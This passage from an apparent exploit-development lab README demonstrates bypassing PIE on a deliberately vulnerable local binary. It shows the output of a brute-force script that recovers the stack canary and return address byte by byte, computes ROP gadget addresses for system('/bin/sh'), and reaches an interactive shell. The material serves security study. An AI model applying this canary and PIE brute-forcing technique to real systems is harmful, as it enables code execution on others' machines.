 ## Bypass PIE
The same brute force way could be used to bypass PIE (position independent executable). Important to disabe RBP registry in stack (-fomit-frame-pointer), but for release builds it is already disabled.
Beforehand determine base offset address, it will be used to define absolute base address in bypass_pie.py:
```bash
$ objdump -d ./stack_overflow_bypass_pie | grep init
Disassembly of section .init:
0000000000001000 <_init>:
```
```bash
$ ./bypass_pie.py 
[+] Starting local process './build/stack_overflow_bypass_pie': pid 67468
[+] Start bruteforcing canary...
[+] Found right byte 0x0
[+] Found right byte 0x15
[+] Found right byte 0xe
[+] Found right byte 0x34
[+] Found right byte 0x45
[+] Found right byte 0xfb
[+] Found right byte 0xd1
[+] Found right byte 0x4e
Found canary value: 00150e3445fbd14e
[+] Start bruteforcing return address...
[+] Found right byte 0x92
[+] Found right byte 0xb4
[+] Found right byte 0xbb
[+] Found right byte 0xe8
[+] Found right byte 0x8c
[+] Found right byte 0x55
[+] Found right byte 0x0
[+] Found right byte 0x0
Found return address value: 0x558ce8bbb492
[*] '/home/talantov/projects/appsec/exploit/build/stack_overflow_bypass_pie'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loading gadgets for '/home/talantov/projects/appsec/exploit/build/stack_overflow_bypass_pie'
Init offset: 0x1000
Base address: 0x558ce8bba000
Bin sh: 0x558ce8bbc004
Pop rdi: 0x558ce8bbb2e0
Ret: 0x558ce8bbb01a
System plt: 0x558ce8bbb144
[*] Switching to interactive mode
$ id
uid=1000(talantov) gid=1000(talantov) groups=1000(talantov),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare)
$ ls
all.txt          peda-session-stack_overflow_bypass_canary.txt
build          README.md
bypass_canary.py  shellcode.c
bypass_pie.py      stack_overflow_bypass_aslr.cpp
CMakeLists.txt      stack_overflow_bypass_canary.cpp
dump          stack_overflow_bypass_nx.cpp
getenvvar.c      stack_overflow.cpp
mysh.c          test.py
payload
$  
```
